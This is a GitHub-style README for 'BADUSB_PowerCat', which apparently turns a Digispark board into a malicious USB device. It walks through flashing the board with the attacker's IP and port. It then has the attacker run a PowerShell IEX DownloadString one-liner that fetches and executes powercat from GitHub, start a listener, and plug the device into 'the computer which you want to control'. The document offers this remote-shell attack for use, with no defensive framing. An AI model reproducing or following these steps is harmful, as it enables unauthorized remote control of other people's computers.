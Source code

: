 BADUSB_PowerCat
===============
This Project is a gift for the 22th anniversary celebration of BY2HIT!  
![0](http://www.by2hit.net/wp-content/uploads/2015/05/logo.png) 

Make a BADUSB
-------------

1.Download the appropriate Arduino package at the Arduino.cc website: https://www.arduino.cc/en/Main/Software  
  
2.Download and install the drivers https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip  
  
3.Unzip and run “Install Drivers” (on 32bit systems) or “DPInst64” (on 64bit systems).  
  
4.In the Arduino application go to the “File” menu and select “Preferences”.  
  In the box labeled “Additional Boards Manager URLs” enter: http://digistump.com/package_digistump_index.json  
![1](http://digistump.com/wiki/_media/digispark/tutorials/entry.jpg)  
  
5.Go to the “Tools” menu and then the “Board” submenu - select “Boards Manager” and then from the type drop down select “Contributed”:  
  Select the “Digistump AVR Boards” package and click the “Install” button.  
![2](http://digistump.com//wiki/_media/digispark/tutorials/digispark_install.gif)  
  
6.Open BADUSB_PowerCat.ino change "127.0.0.1" into your IP and Change "443" into the port which you want to use. 
  
7.Upload it.  
  
8.Plug in Digispark.  
  
9.Now, the Digispark become the BADUSB.

Use it
------  

1.Open PowerShell  
  
2.Input"IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')"  

3.Input"powercat -l -p 443" (Change "443" into the port which you set)  
  
4.Plug BADUSB in the computer which you want to control.  
  
5.Want a minute.
  
Done!